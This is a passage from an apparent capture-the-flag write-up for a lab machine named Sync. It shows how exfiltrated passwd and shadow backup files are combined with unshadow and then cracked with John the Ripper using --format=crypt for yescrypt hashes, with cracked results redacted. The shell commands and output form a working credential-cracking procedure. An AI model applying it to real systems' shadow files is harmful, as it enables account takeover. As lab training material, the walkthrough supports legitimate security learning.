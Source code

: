 We can inspect the `passwd` and the `shadow` files, since that they are the ones that stand out at first. And having those files, we can use the utility from `john` called `unshadow` to combine the `shadow` and the `passwd` file into a single file that we can use to crack the passwords for the users.

To install the tool `unshadow` we would need to install `john`

```
$ sudo apt install john -y
```

```
unshadow ./exfiltrated/ssh/backup/1703494921/tmp/backup/passwd ./exfiltrated/ssh/backup/1703494921/tmp/backup/shadow > tmp_shadow
```

Then we can crack it (**or can we?**):

```
syl@sylsec:~/vulnlab/Sync$ john ./tmp_shadow --wordlist=/home/syl/tools/lists/rockyou.txt                                                                                                                                                      
No password hashes loaded (see FAQ)
```

We cannot load those hashes in `john` with the default arguments because the hash function that is being used is called `yescrypt`. We can conclude the hashing function by inspecting the hashes that we in the `tmp_shadow` file.

```
$y$j9T$DBxmxcNWJlhvgfWCUTbEC0<redacted>
$y$j9T$jJFOBCaiGJUmyZZRFn5aG1<redacted>
...
```

We have the starting sequence `$y$` which is related to `yescrypt`. If you need more information about it, you can [read this!](https://security.stackexchange.com/questions/252665/does-john-the-ripper-not-support-yescrypt)

We can use the argument `--fromat=crypt` 

```
syl@sylsec:~/vulnlab/Sync$ john ./tmp_shadow --format=crypt                                                                                                                                                          
Loaded 5 password hashes with 5 different salts (crypt, generic crypt(3) [?/64])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:51 0% 2/3 0g/s 87.90p/s 119.4c/s 119.4C/s leslie..boston
<redacted>           (jennifer)
<redacted>           (triss)
<redacted>           (sa)
```

Now we have the passwords for the user `jennifer` and the user `sa`. Upon changing the user to `jennifer` we would find the `user.txt` hash.  

We can not run `linpeas` for further enumeration on both accounts `sa,jennifer` and we would find that we own a file called `/usr/local/bin/backup.sh`. Upon inspecting the file, we would see that the file contains a script that is being used to back up the files that we saw earlier (the zipped backups). 
